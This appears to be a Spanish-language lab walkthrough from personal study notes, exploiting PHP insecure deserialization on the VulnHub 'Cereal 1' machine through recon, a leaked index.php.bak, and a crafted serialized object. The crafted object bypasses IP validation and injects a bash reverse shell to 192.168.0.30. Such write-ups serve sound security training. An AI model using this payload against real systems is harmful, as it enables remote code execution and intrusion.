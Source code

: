 Un ataque de deserialización es una vulnerabilidad de seguridad que ocurre cuando una aplicación deserializa (convierte en objeto) datos provenientes de una fuente externa, como una solicitud de red o un archivo. Esta vulnerabilidad puede ser explotada por un atacante malintencionado para ejecutar código malicioso o manipular datos en la aplicación objetivo.

-------------------

Para esta vulnerabilidad vamos a practicar con la máquina cereal 1 de vulnhub:
![[Mis apuntes/ANEXOS/Pasted image 20230711112412.png]]
Hacemos un escaneo con nmap, donde nos fijaremos en lo que corre por la web:
![[Mis apuntes/ANEXOS/Pasted image 20230711112734.png]]
Esta es la web:
![[Mis apuntes/ANEXOS/Pasted image 20230711112754.png]]
Hacemos fuzzing, donde tenemos el directorio /blog y /admin:
![[Mis apuntes/ANEXOS/Pasted image 20230711112828.png]]
Vemos que la web en el directorio /blog no se ve correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230711112939.png]]
Y esto es debido a que es posible que se esté aplicando virtual hosting, por lo que miramos el código fuente y vemos que los recursos los está intentando cargar de un cereal.cft:
![[Mis apuntes/ANEXOS/Pasted image 20230711113013.png]]
Por lo que tenemos que añadirlo al /etc/hosts:
![[Mis apuntes/ANEXOS/Pasted image 20230711113104.png]]
Y ahora ya se ve bien:
![[Mis apuntes/ANEXOS/Pasted image 20230711113115.png]]
Ahora si miramos el otro puerto 44441 que también corría un servicio HTTP, vemos que nos sale lo siguiente:
![[Mis apuntes/ANEXOS/Pasted image 20230711113441.png]]
Y dentro de este puerto vamos a buscar subdominios y añadimos el que nos encontró:
```bash
gobuster vhost -u http://cereal.ctf:44441/ -w subdomains-top1million-5000.txt 
```
![[Mis apuntes/ANEXOS/Pasted image 20230711114040.png]]
Y accedemos a este panel:
![[Mis apuntes/ANEXOS/Pasted image 20230711114117.png]]
Podemos probar si se ejecuta de verdad un ping poniéndonos en escucha con tcpdump con este parámetro y vemos que hay conectividad:
```bash
tcpdump -i eth0 -n
```
![[Mis apuntes/ANEXOS/Pasted image 20230711114353.png]]
Vamos a volver a ejecutar un ping pero interceptamos la petición con burpsuite:
![[Mis apuntes/ANEXOS/Pasted image 20230711114742.png]]
Y tenemos un objeto con información:
![[Mis apuntes/ANEXOS/Pasted image 20230711114803.png]]
Pero esa data viene url encodeada, para decodificarla podemos presionar control + shift + u:
![[Mis apuntes/ANEXOS/Pasted image 20230711114859.png]]
Ahora en este punto, hay un directorio dentro de la máquina donde podemos ver cómo se efectúa esta deserialización por detrás, por tanto para encontrar esta ubicación podemos usar gobuster nuevamente pero con un diccionario mucho más grande:

Y esta es la ubicación donde no tenemos permisos:
![[Mis apuntes/ANEXOS/Pasted image 20230711115536.png]]
Pero ahora podemos hacer búsqueda por extensiones de archivos, donde tras ir probando extensiones, nos encontramos el /index.php.bak:
![[Mis apuntes/ANEXOS/Pasted image 20230711115721.png]]
Y nos encontramos con esto:
![[Mis apuntes/ANEXOS/Pasted image 20230711115752.png]]
Y si miramos el código fuente, podemos acceder a cómo se tramita la deserialización por detrás:
```php
<?php

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
		object = object.substr(object.indexOf(\"{\"),object.length);
		object = \"O:8:\\\"pingTest\\\":1:\" + object;
		document.forms[\"ipform\"].obj.value = object;
		document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
	<div class=\"form-content\">
	    <div class=\"form-items\">
		<h3>Ping Test</h3>
		
		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```
![[Mis apuntes/ANEXOS/Pasted image 20230711115847.png]]
Y aquí en esta parte podemos ver cómo se valida que el input sea una IP y no se pueda colar ningún otro comando; pero nuestro objetivo es poder insertar un comando dentro de la variable ipAddress:
![[Mis apuntes/ANEXOS/Pasted image 20230711120121.png]]
Por tanto vamos a crear un nuevo fichero con la data del principio manipulada para después serializarlo y colarlo en burp suite para ejecutar un comando de forma remota:
```php
<?php

class pingTest {
        public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.0.30/443 0>&1'";
        public $isValid = True;
        public $output = "";
}

echo urlencode(serialize(new pingTest));
```
![[Mis apuntes/ANEXOS/Pasted image 20230711121213.png]]
Si lo ejecutamos, gracias al echo del final, tendremos el texto deserializado:
![[Mis apuntes/ANEXOS/Pasted image 20230711121239.png]]
Por tanto volvemos a la ventana del principio e interceptamos nuevamente la petición:
![[Mis apuntes/ANEXOS/Pasted image 20230711121327.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230711121511.png]]
Si pegamos en la última línea el código serializado de antes con el código malicioso, lograremos ejecutar un comando de forma remota, y por tanto obtener una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230711121610.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230711121633.png]]
Si lo ejecutamos, obtenemos una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230711121655.png]]
